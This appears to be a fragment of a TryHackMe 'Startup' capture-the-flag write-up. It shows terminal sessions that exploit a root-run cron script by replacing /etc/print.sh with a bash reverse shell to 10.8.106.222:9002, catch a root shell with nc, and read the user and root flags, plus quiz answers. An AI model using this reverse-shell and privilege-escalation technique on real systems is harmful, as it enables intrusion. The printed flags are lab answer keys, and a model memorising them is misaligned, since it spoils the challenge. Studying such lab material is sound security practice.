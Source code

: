 ```
lennie@startup:~$ ls -lA
total 12
drwxr-xr-x 2 lennie lennie 4096 Nov 12 04:53 Documents
drwxr-xr-x 2 root   root   4096 Nov 12 04:54 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12 04:53 user.txt
lennie@startup:~$ cat user.txt
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```

```
lennie@startup:~$ ls -lA scripts/
total 8
-rwxr-xr-x 1 root root 77 Nov 12 04:53 planner.sh
-rw-r--r-- 1 root root  1 Nov 13 12:55 startup_list.txt
lennie@startup:~$ cat scripts/startup_list.txt

lennie@startup:~$ cat scripts/planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
lennie@startup:~$ echo $LIST

lennie@startup:~$
```

```bash
#!/bin/bash
/bin/bash -c 'bash -i >& /dev/tcp/10.8.106.222/9002 0>&1'
```

```
kali@kali:~/CTFs/tryhackme/Startup$ nc -lnvp 9002
Listening on 0.0.0.0 9002
Connection received on 10.10.36.184 36364
bash: cannot set terminal process group (1690): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# ls -lA
ls -lA
total 20
-rw-r--r-- 1 root root 3106 Oct 22  2015 .bashrc
drwxr-xr-x 2 root root 4096 Nov 12 04:54 .nano
-rw-r--r-- 1 root root  148 Aug 17  2015 .profile
-rw-r--r-- 1 root root   38 Nov 12 04:53 root.txt
drwx------ 2 root root 4096 Nov 12 04:50 .ssh
root@startup:~# cat root.txt
cat root.txt
THM{f963aaa6a430f210222158ae15c3d76d}
```

What is the secret spicy soup recipe?

`love`

What are the contents of user.txt?
